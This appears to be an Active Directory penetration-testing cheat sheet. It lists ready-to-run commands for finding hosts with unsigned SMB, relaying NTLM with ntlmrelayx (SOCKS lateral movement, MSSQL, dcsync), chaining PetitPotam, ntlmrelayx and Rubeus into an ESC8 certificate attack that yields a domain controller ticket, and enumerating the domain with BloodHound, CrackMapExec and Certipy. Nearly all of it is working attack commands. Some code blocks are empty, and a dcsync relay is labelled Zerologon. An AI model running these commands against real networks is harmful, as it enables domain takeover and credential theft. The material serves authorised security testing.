 ```bash

```

## SMB unsigned
```bash
Find it:
nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK
use exploit/windows/smb/smb_relay
cme smb $hosts --gen-relay-list relay.txt
```
```bash
Relay it:
ntlmrelayx.py  -tf targets.txt  -smb2support (-6) --enum-domain
ntlmrelayx.py  -tf targets.txt  -smb2support -socks (-6)  #lateral move
```
SMB can be used to relay ESC8 attacks
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#esc8---ad-cs-relay-attack
```bash
PetitPotam.py -u <user> -p <pass> -d <domain> <relay ip> <target ip> 
ntlmrelayx.py -t <CA hostname>/cersrv/certfnsh.asp --no-wcf-server -smb2support --adcs --template DomainController --no-http-server

Then on a domain joined window host:
.\Rubeus.exe asktgt /user:<dc hostname>$ /domain:<domain> /dc:<dc hostname> /certificate:<extracted cert from relay>
```
```bash
Relay to MSSQL:
ntlmrelayx.py -t mssql://<ip> -smb2support –socks
```
```bash
Zerologon:
ntlmrelayx.py -t dcsync://<dc_02_ip> -smb2support -auth-smb <user>:<password>
```

# Valid Credentials

## Bloodhound
```
sharphound.exe -c all -d <domain>
import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>
./rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile> -z
bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all
```
## SMB enumeration
```bash
cme smb <ip> -u <user> -p <password> --shares
```
## Retrieve users
```bash
GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>
cme smb <ip> -u <user> -p '<password>' --users 
```
## Enumerate ADCS
```bash
certipy find -u <user>@<domain> -p <password> -dc-ip <domaincontroller>
```
## Coercion
```bash
```